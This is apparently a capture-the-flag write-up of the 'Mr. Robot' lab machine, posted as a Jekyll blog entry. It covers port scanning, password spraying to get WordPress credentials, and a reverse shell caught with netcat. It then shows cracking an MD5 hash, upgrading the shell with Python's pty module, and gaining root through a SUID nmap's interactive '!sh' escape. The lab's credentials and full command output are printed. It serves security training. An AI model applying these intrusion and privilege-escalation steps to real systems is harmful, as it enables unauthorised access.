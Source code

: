 ```yaml
---
layout: post
title: Elliot
date: 09-05-2025
categories: [medium]
tags: [exfiltration, blind, commandinjection, wget]
image: "https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQQ-wEVmL83jyrWR4RDI9C3wvdlGdmiheafEg&s"
---
```

> Hi kiddle lets move into hacking world.
{: .prompt-danger }
## Scanning
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 05:42 EDT
Nmap scan report for 192.168.56.101
Host is up (0.00040s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8D:AF:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.07 seconds


```

## Enumatration 
Testing using burb suite i hghave identfy the user elliot is present by testing one password and spray the user lists.
Using burbsuite
![Screenshot From 2025-05-09 05-57-04](https://github.com/user-attachments/assets/c70dbb6e-24c7-4d27-8cb7-7eb59af5723e)


```
elliot:ER28-0652
```

## Initial access
 using pntest monkey to have the reverse shell. Under conditio i have truiied to see in wp-contents.php but cant access this place. But in every place with an error there is an error page now we can use this as out gate way execution to get the initial access of the target.
```
┌──(cyberkid㉿cyberkiddle)-[~/Desktop/hack]
└─$ nc -lnvp 1234                
listening on [any] 1234 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 54157
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 06:09:58 up 33 min,  0 users,  load average: 0.01, 0.03, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
![Screenshot From 2025-05-09 06-10-10](https://github.com/user-attachments/assets/b5f2f009-6eca-4314-80ee-ef0abeee0c34)

## Privilge escalation 
we can see there is mr robot in the user and the passwoird key md5.
```
$ cd robot
$ ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```
## Cracking the password
![Screenshot From 2025-05-09 06-52-10](https://github.com/user-attachments/assets/9554366f-29c1-40d2-ac8b-faaa566ad33f)
Once elliot sayed every one uses simple and common password.

```
abcdefghijklmnopqrstuvwxyz: abcdefghijklmnopqrstuvwxyz

```
## Try switch the user to robot
Initilally the root access will fail because the terminal is not stable.
![Screenshot From 2025-05-09 06-57-32](https://github.com/user-attachments/assets/93e00c5d-c8b7-4261-aa50-0c4abbde9d48)

> Hellow friend.
{: .prompt-hint }

```
daemon@linux:/tmp$ su robot
su robot
su: must be run from a terminal
daemon@linux:/tmp$ script /dev/null -c bash
script /dev/null -c bash
daemon@linux:/tmp$ su robot 
Password: 
su: Authentication failure
daemon@linux:/tmp$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/tmp$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/tmp$ whoami
whoami
robot

```

## Privilage escalation and gain access

SUID file
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 68K Feb 12  2015 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 93K Feb 12  2015 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 37K Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 32K Feb 17  2014 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 41K Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 67K Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 152K Mar 12  2015 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 431K May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9.4K Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14K Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 11K Feb 25  2015 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)

```
## Exploiting NMAP

```
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> 

Bogus command -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# pwd
pwd
/root
# ls
ls
firstboot_done	key-3-of-3.txt
# 


```
![Screenshot From 2025-05-09 06-54-26](https://github.com/user-attachments/assets/5fd7e122-53f6-471f-9598-f55ddbf07119)

